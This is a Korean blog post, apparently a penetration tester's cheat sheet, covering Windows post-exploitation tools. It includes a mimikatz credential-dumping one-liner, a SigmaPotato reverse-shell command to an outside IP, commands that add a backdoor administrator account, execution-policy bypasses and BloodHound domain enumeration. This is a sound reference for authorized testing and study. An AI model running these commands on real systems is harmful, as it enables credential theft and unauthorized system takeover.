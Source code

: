 ```yaml
---
layout: post
title: 유용한 윈도우 툴 모음집
subtitle: 많이 쓰는 윈도우 툴 모음집
category: knowledge
thumbnail-img: /assets/img/hazard.jpg
tags: [windows, tool]
author: Hong
---
```


이번에는 저번 포스팅에 이어서 윈도우 편.

# mimikatz

debug privilege가 있을 때 사용 할 수 있는 툴.

로컬 시스템의 유저 정보와 NTLM해쉬 등을 알 수 있다.

[mimikatz](https://github.com/ParrotSec/mimikatz/tree/master)

evil-winrm의 경우 mimikatz를 실행하면 버그가 걸리는데 이럴 때는 리버스쉘로 옮기거나 원라이너로 명령어를 넘겨주면 된다.

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
```

# Runas

GUI 환경에서 사용할 수 있는 툴.

다른 유저로서 조작하는게 가능하다.

래터럴 무브먼트에 사용하거나 관리자로 실행하는데 활용할 수 있다.

```
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...

PS C:\Users\steve>
```

# winpeas

linpeas의 윈도우 버전.

[winpeas](https://www.kali.org/tools/peass-ng/)

# seatbelt.exe

winpeas같은 툴

# powerup.ps1

칼리에 기본적으로 깔려있다.

`cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .`

쓰기 권한을 가진 파일들을 조회하는게 가능하다.

```
PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```

# powerview.ps1

이것도 칼리에 기본적으로 있는 툴.

도메인 정보를 파악할 때 유용하다.

사용하기 전에 모듈을 임포트해서 사용한다. `Import-Module`

`Find-LocalAdminAccess`같이 사용 가능.

# sigmapotato

SeImpersonatePrivilege Impersonate a client after authentication Enabled일 때 사용 할 수 있는 툴.

[sigmapotato](https://github.com/tylerdotrar/SigmaPotato/releases/tag/v1.2.6)

바로 리버스쉘로 연결하는 것도 가능하다.

`.\SigmaPotato.exe --revshell 192.168.45.181 9999`

그 밖에도 유저를 추가하거나 수정하는 것도 할 수 있다.

```
.\SigmaPotato "net user hong password /add"

PS C:\temp> .\SigmaPotato.exe "net user hong password /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 932 | Token: 0x660 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1020
[+] Current Command Length: 27 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 5532

[+] Process Output:
The command completed successfully.

.\SigmaPotato "net localgroup Administrators hong /add"

PS C:\temp> .\SigmaPotato.exe "net localgroup Administrators hong /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 932 | Token: 0x660 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1016
[+] Current Command Length: 39 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 6184

[+] Process Output:
The command completed successfully.
```

# winsimpleHTTP

감탄했던 툴 중에 하나.

파이썬이 설치되어 있지 않아도 간단하게 웹서버를 세울 수 있다. 파일을 옮기거나 할 때 편리하다.

[winsimplehttp](https://github.com/remisarrailh/WinSimpleHTTP)

# sharphound

[다운로드 링크](https://github.com/SpecterOps/SharpHound/releases)에서 맞는 버전의 바이너리 파일을 다운받는다.

예를들어 bloodhound의 버전이 4.3.1인 경우 꽤 오래된 버전인 sharphound는 1.1.1을 다운받아야하는데 [이 링크](https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.1)에서 받을 수 있다.

```powershell
powershell -ep bypass
Import-Module .\Sharphound.ps1

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\temp -OutputPrefix "corp audit"
```
압축 파일이 생성되는데 이 파일을 bloodhound에 업로드해서 분석할 수 있다.

bin파일은 캐시 정보를 포함할 뿐이기 때문에 지워도 상관없다.